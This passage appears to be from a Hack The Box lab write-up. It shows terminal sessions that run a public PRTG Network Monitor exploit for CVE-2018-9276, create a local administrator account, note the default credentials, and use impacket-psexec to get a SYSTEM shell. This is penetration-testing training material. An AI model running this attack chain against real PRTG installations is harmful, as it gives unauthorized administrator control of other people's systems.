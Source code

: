 ```bash
┌──(root㉿kali)-[/home/…/Documents/htb/10.10.10.152/PRTG-Network-Monitor-RCE]
└─# ./prtg-exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.362998484.1682208516; _gid=GA1.4.1269743256.1682208516; OCTOPUS1813713946=ezhGMzRBNDMzLTA4Q0UtNDA4MS1BOTI3LTIwQjk2QkVBQzY2Rn0%3D"

[+]#########################################################################[+] 
[*] PRTG RCE script by M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] https://github.com/M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution  CVE-2018-9276 [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and add it to the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....

 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 

```

Newly created local admin: pentest:P3nT3st

```bash
┌──(root㉿kali)-[/home/kali/Documents/htb/10.10.10.152]
└─# impacket-psexec pentest@10.10.10.152                                       
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file dBAiQLGv.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service cmPL on 10.10.10.152.....
[*] Starting service cmPL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
